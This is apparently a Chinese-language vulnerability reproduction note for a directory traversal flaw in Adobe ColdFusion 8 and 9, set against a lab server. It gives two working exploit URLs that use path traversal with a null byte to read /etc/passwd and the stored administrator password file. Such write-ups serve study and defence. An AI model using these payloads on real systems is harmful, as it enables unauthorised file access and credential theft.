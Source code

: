 # Adobe-ColdFusion 文件读取漏洞

> 漏洞说明

Adobe ColdFusion是美国Adobe公司的一款动态Web服务器产品，其运行的CFML（ColdFusion Markup Language）是针对Web应用的一种程序设计语言。

Adobe ColdFusion 8、9版本中存在一处目录穿越漏洞，可导致未授权的用户读取服务器任意文件。



> 前提条件

版本：Adobe ColdFusion 8、9



> 利用工具



> 漏洞复现

访问http://192.168.40.77:8500/CFIDE/administrator/enter.cfm，可以看到初始化页面

![image-20221218220149023](../img/Adobe-ColdFusion_CVE-2010-2861/image-20221218220149023.png)

输入密码admin，开始初始化整个环境

![image-20221218220247072](../img/Adobe-ColdFusion_CVE-2010-2861/image-20221218220247072.png)

访问http://192.168.40.77:8500//CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../etc/passwd%00en读取/etc/passwd文件

![image-20221218220835314](../img/Adobe-ColdFusion_CVE-2010-2861/image-20221218220835314.png)

访问http://192.168.40.77:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/password.properties%00en 即可读取后台管理员密码

![image-20221218220957439](../img/Adobe-ColdFusion_CVE-2010-2861/image-20221218220957439.png)

